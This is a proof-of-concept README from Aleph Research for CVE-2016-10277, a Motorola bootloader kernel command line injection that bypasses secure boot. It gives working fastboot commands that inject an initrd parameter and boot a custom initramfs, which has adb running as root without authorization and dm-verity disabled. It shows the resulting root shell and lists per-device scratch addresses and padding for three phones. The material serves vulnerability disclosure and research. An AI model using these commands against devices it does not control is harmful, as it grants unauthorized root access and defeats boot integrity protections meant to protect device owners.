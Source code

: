# PoC for initroot: Motorola Bootloader Kernel Command Line Injection Secure Boot Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies

## Instructions ##

1. Use the commited `initroot-<device>.cpio.gz`, or produce your own:
```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot-<device>.cpio.gz
$ cd ..
```
2. Our commited initramfs images have adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the relevant partitions
```terminal
fastboot oem config fsg-id "a initrd=<SCATCH_ADDR+PADDING>,<initroot.cpio.gz size-PADDING>"`
fastboot flash foo initroot-<device>.cpio.gz`
fastboot continue
```
3. if you use our initramfs, `adb shell` will now give you a root shell:
```
$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

## Verified Devices ##

| Device           | `SCRATCH_ADDR` | `PADDING`   | committed `initrams`
|------------------|--------------|-----------|---------
| shamu (Nexus 6)  | `0x11000000`   | `0x0`         | AOSP `userdebug`
| cedric (Moto G5) | `0xA0100000`   | `0x2000000` | Release, patched `init` and `adbd` to disable SELinux, `set{u,g}id` to shell, capabilities drop and adb auth
| athene (Moto G6) | `0x90000000`   | `0x2000000` | ""



**Note**:
This vulnerability may affect other Motorola devices too: a different initramfs will be needed. A different physical address of initrd (`SCRATCH_ADDR`). `PADDING` may vary as well.

Blog post with details is available [here](https://alephsecurity.com/2017/05/23/nexus6-initroot/)



